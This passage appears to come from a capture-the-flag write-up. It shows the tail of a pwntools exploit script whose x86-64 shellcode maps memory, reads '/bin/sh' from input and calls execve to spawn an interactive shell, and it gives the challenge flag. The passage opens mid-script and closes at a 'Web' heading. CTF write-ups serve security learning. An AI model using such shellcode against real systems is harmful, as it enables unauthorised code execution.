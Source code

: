 ```python
mov rax, 0x9
syscall

mov rsp, rax
add rsp, 0x1000

mov rdi, 0x0
mov rsi, rsp
mov rdx, 0x20
mov rax, 0
syscall

mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
'''

p.send(asm(s))

p.send('/bin/sh\x00')

p.interactive()
```

**FLAG : `HCTF{Simple_Shellcode_Problem_Is_So_CUTE!!!}`**

<br />

# Web


